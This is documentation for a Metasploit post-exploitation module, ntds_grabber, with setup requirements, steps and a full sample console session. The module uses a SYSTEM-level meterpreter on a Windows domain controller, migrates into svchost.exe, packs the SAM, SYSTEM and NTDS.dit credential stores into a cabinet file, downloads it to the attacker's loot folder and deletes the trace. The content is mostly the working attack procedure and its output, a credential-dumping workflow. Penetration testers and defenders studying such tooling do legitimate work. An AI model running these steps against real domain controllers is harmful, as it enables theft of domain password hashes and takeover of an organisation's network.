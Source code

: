 ## Creating A Testing Environment
  To use this module you need an meterpreter on a domain controller.
  The meterpreter has to have SYSTEM priviliges.
  Powershell has te be installed.

This module has been tested against:

  1. Windows Server 2008r2

This module was not tested against, but may work against:

  1. Other versions of Windows server.

## Verification Steps

  1. Start msfconsole
  2. Obtain a meterpreter session with a meterpreter via whatever method.
  3. Ensure the metepreter has SYSTEM priviliges.
  4. Ensure powershell is installed.
  3. Do: 'use post/windows/gather/ntds_grabber '
  4. Do: 'set session #'
  5. Do: 'run'

## Scenarios

### Windows Server 2008r2 with an x86 meterpreter

    msf exploit(psexec) > use post/windows/gather/ntds_grabber 
    msf post(ntds_grabber) > set session #
    session => #
    msf post(ntds_grabber) > run

    [+] [2017.04.05-12:26:49] Running as SYSTEM
    [+] [2017.04.05-12:26:50] Running on a domain controller
    [+] [2017.04.05-12:26:50] PowerShell is installed.
    [-] [2017.04.05-12:26:50] The meterpreter is not the same architecture as the OS! Migrating to process matching architecture!
    [*] [2017.04.05-12:26:50] Starting new x64 process C:\windows\sysnative\svchost.exe
    [+] [2017.04.05-12:26:51] Got pid 3088
    [*] [2017.04.05-12:26:51] Migrating..
    [+] [2017.04.05-12:26:56] Success!
    [*] [2017.04.05-12:26:56] Powershell Script executed
    [*] [2017.04.05-12:26:59] Creating All.cab
    [*] [2017.04.05-12:27:01] Waiting for All.cab
    [*] [2017.04.05-12:27:02] Waiting for All.cab
    [+] [2017.04.05-12:27:02] All.cab should be created in the current working directory
    [*] [2017.04.05-12:27:05] Downloading All.cab
    [+] [2017.04.05-12:27:15] All.cab saved in: /home/XXX/.msf4/loot/20170405122715_default_10.100.0.2_CabinetFile_648914.cab
    [*] [2017.04.05-12:27:15] Removing All.cab
    [+] [2017.04.05-12:27:15] All.cab Removed
    [*] Post module execution completed
    msf post(ntds_grabber) > loot

    Loot
    ====

    host        service  type          name     content          info                                              path
    ----        -------  ----          ----     -------          ----                                              ----
    10.100.0.2           Cabinet File  All.cab  application/cab  Cabinet file containing SAM, SYSTEM and NTDS.dit  /home/XXX/.msf4/loot/20170405122715_default_10.100.0.2_CabinetFile_648914.cab
